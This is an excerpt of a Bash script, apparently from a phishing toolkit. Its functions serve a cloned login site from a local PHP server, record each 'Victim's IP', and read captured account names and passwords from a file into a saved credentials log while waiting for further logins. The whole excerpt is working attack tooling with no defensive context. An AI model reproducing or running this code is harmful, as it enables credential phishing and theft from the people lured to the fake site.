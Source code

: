 ## Choose custom port
cusport() {
	echo
	read -n1 -p "${RED}[${WHITE}?${RED}]${ORANGE} Do You Want A Custom Port ${GREEN}[${CYAN}y${GREEN}/${CYAN}N${GREEN}]: ${ORANGE}" P_ANS
	if [[ ${P_ANS} =~ ^([yY])$ ]]; then
		echo -e "\n"
		read -n4 -p "${RED}[${WHITE}-${RED}]${ORANGE} Enter Your Custom 4-digit Port [1024-9999] : ${WHITE}" CU_P
		if [[ ! -z  ${CU_P} && "${CU_P}" =~ ^([1-9][0-9][0-9][0-9])$ && ${CU_P} -ge 1024 ]]; then
			PORT=${CU_P}
			echo
		else
			echo -ne "\n\n${RED}[${WHITE}!${RED}]${RED} Invalid 4-digit Port : $CU_P, Try Again...${WHITE}"
			{ sleep 2; clear; banner_small; cusport; }
		fi		
	else 
		echo -ne "\n\n${RED}[${WHITE}-${RED}]${BLUE} Using Default Port $PORT...${WHITE}\n"
	fi
}

## Setup website and start php server
setup_site() {
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Setting up server..."${WHITE}
	cp -rf .sites/"$website"/* .server/www
	cp -f .sites/ip.php .server/www/
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Starting PHP server..."${WHITE}
	cd .server/www && php -S "$HOST":"$PORT" > /dev/null 2>&1 &
}

## Get IP address
capture_ip() {
	IP=$(awk -F'IP: ' '{print $2}' .server/www/ip.txt | xargs)
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Victim's IP : ${BLUE}$IP"
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}auth/ip.txt"
	cat .server/www/ip.txt >> auth/ip.txt
}

## Get credentials
capture_creds() {
	ACCOUNT=$(grep -o 'Username:.*' .server/www/usernames.txt | awk '{print $2}')
	PASSWORD=$(grep -o 'Pass:.*' .server/www/usernames.txt | awk -F ":." '{print $NF}')
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Account : ${BLUE}$ACCOUNT"
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Password : ${BLUE}$PASSWORD"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}auth/usernames.dat"
	cat .server/www/usernames.txt >> auth/usernames.dat
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Next Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit. "
}
